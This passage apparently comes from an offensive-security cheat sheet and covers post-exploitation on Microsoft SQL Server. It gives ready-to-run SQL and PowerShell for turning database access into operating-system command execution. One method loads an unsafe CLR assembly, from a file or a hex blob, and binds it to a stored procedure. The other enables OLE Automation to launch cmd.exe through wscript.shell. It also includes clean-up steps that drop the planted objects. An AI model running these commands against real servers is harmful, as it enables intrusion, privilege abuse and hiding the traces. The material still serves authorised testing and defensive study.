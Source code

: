    ```sql
	EXEC sys.sp_add_trusted_assembly 0x[SHA512], N'assembly';
   ```
4. Import the assembly
	```sql
	CREATE ASSEMBLY my_assembly
	FROM 'c:\temp\cmd_exec.dll'
	WITH PERMISSION_SET = UNSAFE;
	```
5. Link the assembly to a stored procedure
	```sql
	CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
	GO
	```
6. Execute and clean
	```sql
	cmd_exec "whoami"
	DROP PROCEDURE cmd_exec
	DROP ASSEMBLY my_assembly
	```

**CREATE ASSEMBLY** will also accept an hexadecimal string representation of a CLR DLL

```sql
CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM 
0x4D5A90000300000004000000F[TRUNCATED]
WITH PERMISSION_SET = UNSAFE 
GO 
```


## OLE Automation

* :warning: Disabled by default
* The execution takes place with privileges of the **service account**.


### Execute commands using OLE automation procedures

```ps1
Invoke-SQLOSCmdOle -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
```

```ps1
# Enable OLE Automation
EXEC sp_configure 'show advanced options', 1
EXEC sp_configure reconfigure
EXEC sp_configure 'OLE Automation Procedures', 1
EXEC sp_configure reconfigure

# Execute commands
DECLARE @execmd INT
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe /c'
```

